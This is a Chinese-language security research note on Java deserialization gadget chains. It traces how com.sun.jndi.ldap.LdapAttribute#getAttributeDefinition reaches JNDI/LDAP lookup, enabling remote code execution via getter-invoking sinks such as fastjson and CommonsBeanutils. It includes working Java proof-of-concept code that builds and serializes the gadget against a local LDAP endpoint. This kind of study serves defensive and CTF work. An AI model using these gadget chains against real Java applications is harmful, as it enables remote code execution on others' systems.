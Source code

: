 # 0x01 Throw A Problem

不论是CB链中`PropertyUtils.getProperty`，还是`FastJson`的`parseObject`

能调用类的getter方法

但若把两个我们熟知的存在恶意getter方法的类都ban了

> TemplatesImpl#getOutputproperties
>
> JdbcRowSetImpl#getDataBaseMetaData

能否找到一个新的存在恶意getter方法的类呢？最好是在Java标准库的类

# 0x02 Newborn Getter RCE

LDAP协议的JNDI注入中，`InitialContext#lookup`的调用栈如下

> javax.naming.InitialContext#lookup(java.lang.String)
>
> -> com.sun.jndi.url.ldap.ldapURLContext#lookup(java.lang.String)
>
> -> com.sun.jndi.toolkit.url.GenericURLContext#lookup(java.lang.String)
>
> -> com.sun.jndi.toolkit.ctx.PartialCompositeContext#lookup(javax.naming.Name)
>
> -> com.sun.jndi.toolkit.ctx.ComponentContext#p_lookup
>
> -> com.sun.jndi.ldap.LdapCtx#c_lookup

所以要想实现JNDI注入，入口不一定要是`InitialContext#lookup`

只要沿途的参数可控，都可以作为入口

👉[Real Wolrd CTF 3rd Writeup | Old System (qq.com)](https://mp.weixin.qq.com/s/ClASwg6SH0uij_-IX-GahQ)

这篇文章的作者找到了另一条可以通向`com.sun.jndi.ldap.LdapCtx#c_lookup`的链子

文章提到了一个在`jdk1.4`和`jdk1.8`都存在的类

Introducing `com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition`~

> -> com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
>
> -> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
>
> -> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
>
> -> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
>
> -> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
>
> -> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
>
> -> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
>
> -> com.sun.jndi.ldap.LdapCtx#c_lookup

```java
Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
    new Class[] {String.class});
ldapAttributeClazzConstructor.setAccessible(true);
Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
    new Object[] {"name"});
setFieldValue(ldapAttribute, "baseCtxURL", "ldap://127.0.0.1:8099/");
setFieldValue(ldapAttribute, "rdn", new CompositeName("a//b"));

Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition");
getAttributeDefinitionMethod.setAccessible(true);
getAttributeDefinitionMethod.invoke(ldapAttribute);
```

太牛了orz！！！

文章里面还提到了`PriorityQueue`的替代

> `PriorityQueue`它代表的数据结构是优先级队列。
>
> 所谓的反序列化就是将数据还原成对象，因此如果要得到一个优先级队列的对象，在反序列化过程中势必会进行排序的操作。而排序的过程中，很有可能就会用到 `Comparator` 接口类去对数据结构里的数据进行比较。

`TreeMap`也接受一个 `Comparator` 接口类作为构造函数的参数，在调用 `TreeMap`的get或put方法的时候，就会触发 `Comparator.compare` 方法。

**![image-20230424140512757](../.gitbook/assets/image-20230424140512757.png)**

![image-20230424140645189](../.gitbook/assets/image-20230424140645189.png)

![image-20230424140415815](../.gitbook/assets/image-20230424140415815.png)

`AbstractMap.equals` 方法里有 `Map.get` 方法的调用，两个Map对象判断是否相等，通过遍历一个Map的`entrySet`每个键值对，比较另一个Map对应键下的值（这里就调用了`Map.get(key)`）是否和原Map的相等

![image-20230424140222874](../.gitbook/assets/image-20230424140222874.png)

接着找哪里调用了`equals`，HashMap的`readObject`就有

------

还以为这条链子很隐蔽呢。。。`fastjson1.2.60`就把它ban了（也可能fastjson宁可错杀一百也不放过一个）

```java
Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
    new Class[]{String.class});
ldapAttributeClazzConstructor.setAccessible(true);
Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
    new Object[]{"name"});
setFieldValue(ldapAttribute, "baseCtxURL", "ldap://127.0.0.1:8099/");
setFieldValue(ldapAttribute, "rdn", new CompositeName("a//b"));

JSONArray jsonArray = new JSONArray();
jsonArray.add(ldapAttribute);

BadAttributeValueExpException val = new BadAttributeValueExpException(null);
setFieldValue(val, "val", jsonArray);

ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
objectOutputStream.writeObject(val);

ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = (Object) ois.readObject();
```

`autoType is not support. com.sun.jndi.ldap.LdapAttribute`
